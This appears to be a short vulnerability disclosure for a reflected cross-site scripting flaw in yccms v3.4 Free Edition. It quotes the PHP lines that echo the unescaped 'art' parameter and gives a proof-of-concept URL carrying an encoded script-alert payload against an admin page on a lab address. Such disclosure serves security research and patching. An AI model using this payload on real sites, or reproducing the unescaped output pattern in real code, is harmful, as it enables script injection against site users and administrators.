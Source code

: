 # General
Vulnerability Name: yccms v3.4-Free Edition allows reflected XSS via the `/compile/%%D8^D83^D83C04B9%%createhtml.tpl.php` art parameter  

Exploit Author: goldsnakeman  

Vendor Homepage: http://www.yccms.net  

Software Link: http://www.yccms.net/YCCMS_free.rar   

Version: v3.4 Free Edition  

# Vulnerability Overview
Affected code is located at `/compile/%%D8^D83^D83C04B9%%createhtml.tpl.php`，Lines 22 and 23：  

`<?php if ($_GET['art']): ?>`  
`<dd><span class="state">内容生成完毕 !共 <?php echo $_GET['art']; ?>`  

The code in question accepts the `art` parameter without escaping the special characters

# POC
After the administrator logged in, write the POC as:  

`http://172.16.141.134/yccms-v3.4-free/admin/?a=html&m=arts&art=%3Cscript%3Ealert(/xss/);%3C/script%3E`  

![](https://github.com/xiaozhangming/vulnerable/blob/master/yccms/2.jpg)  

![](https://github.com/xiaozhangming/vulnerable/blob/master/yccms/3.jpg)  
